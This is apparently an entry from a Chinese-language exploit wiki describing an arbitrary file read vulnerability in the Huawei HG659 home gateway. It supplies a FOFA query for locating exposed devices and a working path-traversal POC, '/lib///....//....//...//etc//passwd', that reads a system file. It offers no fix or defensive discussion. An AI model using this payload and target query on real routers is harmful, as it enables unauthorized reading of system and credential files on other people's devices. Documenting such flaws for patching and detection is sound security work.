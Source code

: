 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> Huawei HG659 

## FOFA

> [!NOTE]
>
> app="HUAWEI-Home-Gateway-HG659"

## 漏洞复现

登录页面如下

![image-20210615141459903](http://wikioss.peiqi.tech/vuln/image-20210615141459903.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

POC如下

```
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![image-20210615141751249](http://wikioss.peiqi.tech/vuln/image-20210615141751249.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
